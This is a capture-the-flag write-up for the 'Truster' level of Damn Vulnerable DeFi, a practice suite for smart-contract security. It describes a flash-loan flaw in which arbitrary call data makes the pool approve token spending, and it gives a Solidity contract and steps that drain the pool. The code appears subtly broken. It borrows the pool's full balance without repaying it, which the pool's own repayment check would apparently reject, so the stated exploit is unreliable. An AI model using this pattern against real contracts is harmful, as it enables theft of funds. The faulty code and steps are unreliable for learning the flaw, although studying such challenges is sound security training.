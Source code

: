 # Solving the "Truster" Challenge in Damn Vulnerable DeFi

## Introduction

The "Truster" challenge in Damn Vulnerable DeFi exposes a vulnerability in a contract's flash loan feature. This document details the strategy to exploit this vulnerability and drain all tokens from the pool.

## Challenge Overview

The `TrusterLenderPool` contract offers a flash loan feature that's vulnerable due to its implementation of the `flashLoan` function. This function allows arbitrary contract calls with any data, and does not restrict the use of borrowed tokens during the loan.

## Attack Strategy

The key to the attack lies in exploiting the `flashLoan` function to gain control over the pool's tokens.

### Steps to Exploit

1. **Initiate Flash Loan**:

   - Borrow all tokens in the pool using the `flashLoan` function.

2. **Craft Arbitrary Contract Call**:

   - Use the `data` parameter of `flashLoan` to execute an `approve` call on the token contract.
   - Approve your account to spend the pool's tokens.

3. **Transfer Tokens Post Loan**:
   - After the flash loan, transfer the tokens from the pool to your account using the approval obtained in the previous step.

## Attack Contract Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./TrusterLenderPool.sol";
import "./DamnValuableToken.sol";

contract TrusterAttack {
    TrusterLenderPool pool;
    DamnValuableToken token;

    constructor(address poolAddress, address tokenAddress) {
        pool = TrusterLenderPool(poolAddress);
        token = DamnValuableToken(tokenAddress);
    }

    function attack() public {
        // Borrow all tokens in the pool
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            token.balanceOf(address(pool))
        );

        pool.flashLoan(token.balanceOf(address(pool)), msg.sender, address(token), data);

        // Transfer tokens to attacker
        token.transferFrom(address(pool), msg.sender, token.balanceOf(address(pool)));
    }
}
```

## Deployment and Execution

- Deploy the `TrusterAttack` contract.
- Call the `attack` function from your player account.
- The function executes the flash loan, gains approval, and transfers the tokens.

## Conclusion

This challenge demonstrates the dangers of allowing arbitrary execution in smart contracts without strict validations. It's crucial to ensure that features like flash loans can't be exploited for unintended actions.
